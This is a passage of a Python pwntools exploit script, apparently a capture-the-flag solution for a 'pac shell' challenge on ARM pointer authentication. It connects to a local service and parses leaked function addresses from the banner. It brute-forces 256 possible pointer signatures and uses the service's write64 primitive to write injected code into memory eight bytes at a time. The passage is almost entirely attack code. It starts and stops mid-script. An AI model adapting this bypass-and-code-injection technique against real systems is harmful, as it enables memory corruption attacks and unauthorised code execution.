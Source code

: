         for i in range(0, len(code), 8): # iterate over code 8 bytes at a time
            # read next 8 bytes to send
            chunk_bytes = code[i:i + 8]
            # pad with 0 (only relevant for the last chunk if number of bytes in code is not mulitple of 8)
            chunk_bytes += bytearray(8 - len(chunk_bytes))
            # convert bytes to big endian and then into hex
            chunk_hex = hex(unpack(chunk_bytes))
            # instruct target application that we want to execute write64
            io.sendline(hex(write64_addr).encode())
            # wait till target application is ready to receive our input
            io.recvuntil(b"write64> ")
            # send address that we want to write too (for each chunk we increase it by i) and value of the chunk
            io.sendline((hex(base_addr + i) + " " + chunk_hex).encode())
            # wait till application executed our write instruction
            io.recvuntil(b"pacsh> ")
    
    
    # iterate over 0..256 possible signatures
    for i in range(256):
        remote_server = 'localhost'
        remote_port = 1337
        io = remote(remote_server, remote_port)
    
        # parse addresses of the functions from the welcome message
        # Welcome to pac shell v0.0.1
        # help: 0x34005500000b7c
        # ls: 0x9005500000a54
        # read64: 0x2a005500000a78
        # write64: 0x2f005500000afc
        # pacsh>
        io.recvuntil(b"help: 0x")
        help_addr = int(io.recvline(), 16)
        io.recvuntil(b"read64: 0x")
        read64_addr = int(io.recvline(), 16)
        io.recvuntil(b"write64: 0x")
        write64_addr = int(io.recvline(), 16)
        io.recvuntil(b"pacsh> ")
